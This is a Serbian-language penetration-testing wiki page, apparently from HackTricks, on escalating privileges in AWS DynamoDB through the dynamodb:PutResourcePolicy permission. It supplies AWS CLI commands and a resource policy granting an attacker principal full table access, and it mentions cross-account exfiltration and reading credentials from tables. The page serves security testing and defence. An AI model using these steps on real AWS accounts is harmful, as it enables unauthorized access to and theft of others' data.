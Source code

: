 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Za više informacija o dynamodb proverite:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, i opcionalno `dynamodb:GetResourcePolicy`

Od marta 2024. godine, AWS nudi *politike zasnovane na resursima* za DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Dakle, ako imate `dynamodb:PutResourcePolicy` za tabelu, možete jednostavno dodeliti sebi ili bilo kojem drugom subjektu potpuni pristup tabeli.

Dodeljivanje `dynamodb:PutResourcePolicy` nasumičnom subjektu često se dešava slučajno, ako administratori misle da bi dodeljivanje `dynamodb:Put*` samo omogućilo subjektu da unese stavke u bazu podataka - ili ako su dodelili taj skup dozvola pre marta 2024...

Idealno, takođe imate `dynamodb:GetResourcePolicy`, tako da ne prepisujete druge potencijalno vitalne dozvole, već samo injektujete dodatne dozvole koje su vam potrebne:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Ako ne možete da preuzmete trenutnu politiku, jednostavno koristite ovu koja daje potpuni pristup tabeli vašem principalu:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Ako treba da ga prilagodite, ovde je lista svih mogućih DynamoDB akcija: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). A ovde je lista svih akcija koje mogu biti dozvoljene putem politike zasnovane na resursima *I koje od ovih mogu biti korišćene između naloga (razmislite o eksfiltraciji podataka!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Sada, sa dokumentom politike `policy.json` spremnim, stavite politiku resursa:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Sada biste trebali imati potrebne dozvole.

### Post Eksploatacija

Koliko ja znam, **ne postoji drugi direktan način za eskalaciju privilegija u AWS-u samo sa nekim AWS `dynamodb` dozvolama**. Možete **čitati osetljive** informacije iz tabela (koje mogu sadržati AWS akreditive) i **pisati informacije u tabelama** (što može pokrenuti druge ranjivosti, poput lambda kod injekcija...) ali sve ove opcije su već razmatrane na **DynamoDB Post Eksploatacija stranici**:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Čitajte podatke zloupotrebom data Streams

{{#include ../../../banners/hacktricks-training.md}}
